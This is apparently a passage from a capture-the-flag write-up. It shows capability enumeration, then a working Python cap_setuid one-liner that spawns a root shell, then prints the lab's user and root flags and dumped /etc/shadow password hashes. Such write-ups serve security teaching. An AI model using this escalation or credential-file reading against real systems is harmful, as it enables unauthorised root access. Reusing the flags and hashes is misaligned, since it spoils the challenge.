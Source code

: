 - **Output**:
  - User: `nathan`
  - No `sudo` privileges.
  - Checked for unusual capabilities:

```bash
getcap -r / 2>/dev/null
```
- or use linpeas 
![](<./attachments/Cap-6.png>)
### **Key Finding**:
  - Discovered that `/usr/bin/python3` had the `cap_setuid+ep` capability, allowing it to set the user ID to any user (including root).

## Privilege Escalation Vector

- Exploited the Python capability to execute a script that sets the effective user ID to 0 (root):

```bash
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

- This spawned a root shell, granting full administrative access.
---
# Flags
## User Flag
```txt
eb5664f19ed353f783de12dc9e75647a
```
## Root Flag
```txt
219c22cf58856a0e9e27cc298f3b83d2
```
## /etc/shadow
```txt
root:$6$8vQCitG5q4/cAsI0$Ey/2luHcqUjzLfwBWtArUls9.IlVMjqudyWNOUFUGDgbs9T0RqxH6PYGu/ya6yG0MNfeklSnBLlOskd98Mqdm0
:18762:0:99999:7:::
nathan:$6$R9uks4CNctqqxTOR$/PRd4MKFG5NUNxPkdvIedn.WGvkBh9zqcvCRRzgggky1Xcv7ZxTXfny0QmA.gZ/8keiXdblFB7muSeo2igvj
k.:18762:0:99999:7:::
```
---
# Proof